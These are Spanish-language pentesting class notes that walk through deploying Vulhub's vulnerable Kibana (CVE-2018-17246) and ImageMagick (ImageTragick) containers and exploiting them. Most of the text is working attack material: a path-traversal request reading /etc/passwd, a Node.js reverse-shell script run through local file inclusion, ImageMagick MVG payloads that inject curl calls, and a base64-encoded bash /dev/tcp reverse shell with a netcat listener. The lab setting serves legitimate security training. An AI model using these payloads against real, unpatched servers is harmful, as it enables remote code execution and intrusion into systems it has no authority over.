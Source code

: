 # Despliegue de máquinas vulnerables con Docker-Compose

Tags: #Docker #Comandos #Linux 

A continuación, os proporcionamos el enlace al proyecto de Github que estamos usando para esta clase:
-   **Vulhub**: [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)
Asimismo, por aquí os compartimos el enlace al recurso donde se nos ofrece el script en Javascript encargado de establecer la Reverse Shell:
-   **NodeJS Reverse Shell**: [https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

Desplegaremos una maquina Kibana con su vulnerabilidad 
* **Kibana** es una interfaz de usuario gratuita y abierta que permite visualizar los datos de ElasticSearch y navegar en el Elastic Stack
* **Elasticsearch** 
* **Elastic Stack**  

```bash 
❯ svn checkout https://github.com/vulhub/vulhub/trunk/kibana/CVE-2018-17246   # Para clonar una subcarpeta de Github y en donde dice '/tree/master' quitarlo de la url y colocar **/trunk** y el resto de la url
❯ docker-compose up -d                      # Para poder desplegar el contenerdor una vez descargada
❯ docker port cve-2018-17246_kibana_1       # Miramos el puerto que esta usando para ese servicio en especifico
```

Web **localhost:5601** Para poder ver el servicio web de Kibana

```bash 
❯ curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../etc/passwd"
	# X -> Es el metodo que queremos tramitar GET
	# s -> modo silence

❯ docker-compose logs                  # Para mirar los logs en Docker pero debes de estar dentro del contenedor 
❯ docker-compose exec kibana bash      # Para ingresar al Kibana
	❯ cd /tmp                         # Este dir tiene privilegios de lectura y escritura
	❯ nano reverse.js
		(function(){
		    var net = require("net"),
		        cp = require("child_process"),
		        sh = cp.spawn("/bin/sh", []);
		    var client = new net.Socket();
		    client.connect(443, "172.17.0.1", function(){
		        client.pipe(sh.stdin);
		        sh.stdout.pipe(client);
		        sh.stderr.pipe(client);
		    });
		    return /a/; // Prevents the Node.js application form crashing
		})();

# Con este archivo loque hacemos es que vamos a crear una ReverShell por un puerto y nuestra IP (172.17.0.1) pero seria la del 'docker0', despues solo nos pondriamos en escucha por Netcat en el puerto 443
❯ ifconfig docker0          # Miramos la IP de la interface docker0

❯ curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../tmp/reverse.js"
❯ nc -nlvp 443              # Para ponernos en escucha por Netcat en espera de la revershell para Linux
```

****

Desplegaremos otra maquina llamada **ImageMagick** con su vulnerabilidad 
-   **Proyecto de Github**: [https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick](https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick)

Este proyecto se encarga de procesar contenido multimedia 
```bash 
❯ svn checkout https://github.com/vulhub/vulhub/trunk/imagemagick/imagetragick # Para clonar una subcarpeta de Github y en donde dice '/tree/master' quitarlo de la url y colocar **/trunk** y el resto de la url
❯ docker-compose up -d                  # Para poder desplegar el contenerdor una vez descargada
❯ docker port imagetragick_web_1        # Miramos el puerto que esta usando para ese servicio en especifico y nos muestra el 8080
```

Web **localhost:8080** Para poder ver el servicio web de Imagetragick

Podemos usar BurpSuite con otro puerto para poder interceptar la comunicacion y asi en el campo de la extension del archivo a subir, modificarlo y ver que tipo de archivos acepta. Esto se haria con un ataque de fuuerza bruta en el Intruder y con una expresion regular en **Options > Grep-Match** podemos seleccionar **Add** y despues la expresion o el texto que queremos que nos haga match en la respuesta 

Podemos colocar este contenido en el archivo '.jpg' en Burpsuite y poder explotar la vulnerabilidad
```bash 
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?|curl "172.72.0.1/testingRCE")'
pop graphic-context
```

```bash 
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Ahora podemos hacer la ReverShell 
```bash
❯ nvim file.gif

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo tqergqerbash64revershell | base64 -d | bash`"||id " )'
pop graphic-context
```

Después del comando 'echo' colocaremos la ReverShell pero que fue codificada en base 64
```bash
❯ echo -n "/bin/bash -i >& /dev/tcp/172.72.0.1/4646 0>&1" | base64          # Nos regresara la Revershell codificada 
```